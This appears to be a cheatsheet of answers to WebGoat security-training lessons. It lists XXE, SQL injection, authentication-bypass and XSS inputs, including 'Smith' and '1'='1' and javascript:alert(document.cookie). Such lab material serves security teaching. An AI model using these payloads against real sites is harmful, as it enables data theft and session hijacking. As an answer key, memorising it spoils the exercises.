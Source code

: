 # Cheatsheet

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```
